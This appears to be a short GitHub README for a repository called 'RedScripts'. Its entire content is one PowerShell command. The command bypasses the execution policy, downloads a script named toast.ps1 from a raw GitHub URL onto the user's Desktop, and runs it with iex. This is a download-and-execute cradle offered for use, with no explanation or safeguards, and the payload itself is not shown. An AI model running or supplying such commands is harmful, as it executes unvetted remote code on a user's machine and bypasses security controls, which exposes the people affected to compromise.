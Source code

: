 # RedScripts


'''
powershell.exe -ExecutionPolicy Bypass -NoExit (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/sdd4181/RedScripts/main/toast.ps1', 'C:\Users\%USERNAME%\Desktop\script1.ps1'); iex 'C:\Users\%USERNAME%\Desktop\script1.ps1'
'''
